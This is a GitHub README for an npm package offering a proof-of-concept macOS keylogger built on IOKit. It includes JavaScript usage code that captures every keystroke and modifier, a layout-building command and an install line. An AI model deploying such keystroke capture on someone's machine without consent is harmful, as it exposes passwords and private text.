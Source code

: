 # POC Keylogger for Mac OS X 10.5+

## Introduction
By using native bindings to IOKit we can talk directly with the keyboard. Unfortunately this means we have to provide our own key layouts but since we can talk directly with the hardware this should work regardless of which state the rest of the system is in.

## Usage example
```javascript
const keylogger = require('osx-keylogger');

// shows only the stuff from the keylogger(not stdin) but breaks ctrl+c
// process.stdin.setRawMode(true);

let currentModifiers = '';

keylogger.listen((modifiers, key) => {
  if (modifiers !== currentModifiers) {
    currentModifiers = modifiers;
    process.stdout.write(`[${modifiers}]`);
  }
  process.stdout.write(key);
}, 'swedish.json');

```
This example uses the swedish.json file as the key layout and will write the users input to stdout.

## makeKeylayout.js
By running the command
```
node makeKeylayout.js yourlanguage.json
```
And then using the console you are running it in to read what keys are pressed you can create your own language key layout. In this case it would create yourlanguage.json

## Installation
via npm
```
npm install osx-keylogger
```

## Tests
Sorry, I didn't feel like it. It's a POC

## Why?
I couldn't find a decent opensource keylogger for a modern version of OS X and I was looking for an excuse to try out native bindings.

## License
MIT, see LICENSE file
